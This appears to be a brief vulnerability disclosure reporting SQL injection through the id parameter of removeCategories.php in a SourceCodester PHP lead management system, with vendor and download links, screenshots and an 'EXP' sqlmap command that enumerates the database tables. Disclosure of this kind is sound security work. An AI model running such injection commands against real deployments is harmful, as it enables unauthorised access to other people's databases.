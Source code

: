 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/208410760-0cdbb490-86fe-43e2-bdfb-0481c95215a0.png)


EXP:

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/removeCategories.php?id=1" --dbms=mysql -D penglead --tables
```
![image](https://user-images.githubusercontent.com/30823782/208410813-392226e3-17b1-422b-832d-c266e88e55f1.png)
